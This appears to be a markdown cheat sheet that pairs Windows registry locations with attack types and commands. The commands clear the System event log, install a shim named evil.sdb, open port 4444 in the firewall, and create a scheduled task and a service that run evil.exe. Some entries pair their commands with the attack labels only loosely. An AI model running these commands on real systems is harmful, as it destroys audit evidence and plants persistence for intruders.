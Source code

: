 ### Event Log Manipulation
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\Eventlog`  
**Attacks:** Evidence Tampering, Audit Bypass  
**Codes:** `wevtutil cl System`

### Windows Error Reporting Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting`  
**Attacks:** Information Disclosure, Crash Analysis Bypass  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting /v Disabled /t REG_DWORD /d 1`

### Application Compatibility Shims
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags`  
**Attacks:** Privilege Escalation, Application Bypass  
**Codes:** `sdbinst evil.sdb`

### Power Settings Manipulation
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Power`  
**Attacks:** Denial of Service, Energy Consumption Manipulation  
**Codes:** `powercfg /setactive evilpowerplan`

### Windows Firewall Rule Manipulation
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\FirewallRules`  
**Attacks:** Unauthorized Access, Firewall Bypass  
**Codes:** `netsh advfirewall firewall add rule name="EvilRule" dir=in action=allow protocol=TCP localport=4444`

### Windows Script Host Control
**Registry Path:** `HKCU\Software\Microsoft\Windows Script Host\Settings`  
**Attacks:** Script Execution Control, Malware Execution  
**Codes:** `reg add HKCU\Software\Microsoft\Windows Script Host\Settings /v Enabled /t REG_DWORD /d 0`

### Windows Sidebar Gadgets Control
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Windows\Sidebar`  
**Attacks:** Malicious Gadget Execution, Information Disclosure  
**Codes:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Windows\Sidebar /v TurnOffSidebar /t REG_DWORD /d 1`

### Windows Task Scheduler Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule`  
**Attacks:** Scheduled Task Manipulation, Persistence  
**Codes:** `schtasks /create /tn EvilTask /tr evil.exe /sc daily`

### Windows Services Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services`  
**Attacks:** Service Manipulation, Privilege Escalation  
**Codes:** `sc create EvilService binPath= "evil.exe"`

